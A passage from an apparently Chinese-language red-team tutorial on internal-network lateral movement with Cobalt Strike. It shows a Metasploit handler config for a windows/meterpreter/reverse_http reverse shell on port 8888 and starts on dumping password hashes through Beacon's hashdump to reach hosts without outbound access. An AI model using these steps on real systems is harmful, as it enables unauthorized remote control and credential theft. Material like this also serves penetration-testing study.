 打开 `msf` 配置文件

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

> 注意 不能使用 X64 位的 beacon.exe!

[![](assets/1702372940-a41fe62e354274f96e36e3098f11932e.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/13.png)

#### [](#%E5%88%A9%E7%94%A8cs%E4%B8%AD%E7%9A%84psexec%E4%B8%8A%E7%BA%BF%E5%86%85%E7%BD%91%E4%B8%8D%E5%87%BA%E7%BD%91%E4%B8%BB%E6%9C%BA "利用cs中的psexec上线内网不出网主机")利用 cs 中的 psexec 上线内网不出网主机[](#%E5%88%A9%E7%94%A8cs%E4%B8%AD%E7%9A%84psexec%E4%B8%8A%E7%BA%BF%E5%86%85%E7%BD%91%E4%B8%8D%E5%87%BA%E7%BD%91%E4%B8%BB%E6%9C%BA)

1.  `Dump Hashes导出HASH`

Beacon 右键，`Access–>Dump Hashes` 或命令行中执行`hashdump命令`。  
`hashdump`必须在拥有`adminstrators`权限的情况下才能执行。

